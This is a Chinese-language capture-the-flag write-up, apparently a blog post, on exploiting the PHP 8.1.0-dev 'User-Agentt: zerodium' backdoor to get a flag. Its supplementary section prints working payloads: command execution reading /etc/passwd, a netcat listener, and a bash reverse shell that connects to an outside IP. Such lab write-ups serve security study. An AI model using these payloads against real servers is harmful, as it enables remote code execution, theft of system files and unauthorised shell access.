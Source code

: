 > 1. 没有思路时，可以先尝试上传，然后借助burpsuit查看页面报错/提示信息，再进一步修改
> 2. 利用网络搜索得到一些payload

# PHP的后门

## 题目描述

PHP竟然也会有后门这种东西？你知道吗！

## 解答

1. 页面提示PHP的版本

   <img src="https://img2023.cnblogs.com/blog/3406637/202404/3406637-20240410172522593-821761328.png" alt="image-20240410172525381" width="300" />

2. 查看PHP版本

   此处记得要在repeater中go一下看response，获得PHP版本

   ![image-20240410172454484](https://img2023.cnblogs.com/blog/3406637/202404/3406637-20240410172452296-110923961.png)

3. 从题目知道和后门有关，查询该版本PHP的后门

   后门存在于user-agentt:zerodium字段，后面加上相应的php函数，得到执行结果

4. 得到flag

   ![image-20240410173100990](https://img2023.cnblogs.com/blog/3406637/202404/3406637-20240410173058872-1878647754.png)

## 补充知识

PHP-8.1.0-dev 后门命令执行漏洞复现

1. 改包用的payload

   第二个直接获取账户信息，这里自由发挥吧

   ```shell
   User-Agentt: zerodiumvar_dump(2*3)
   User-Agentt: zerodiumsystem(“cat /etc/passwd”)
   ```

2. 建立监听

   nc -lvp 192.168.0.118:8080

3. 反弹Shell

   ```shell
   Payload如下：
   User-Agentt: zerodiumsystem(“bash -c ‘exec bash -i >& /dev/tcp/192.168.0.116/6666 0>&1’”);
   ```

   这时监听机应该就应该建立连接了Getshell！

## 总结
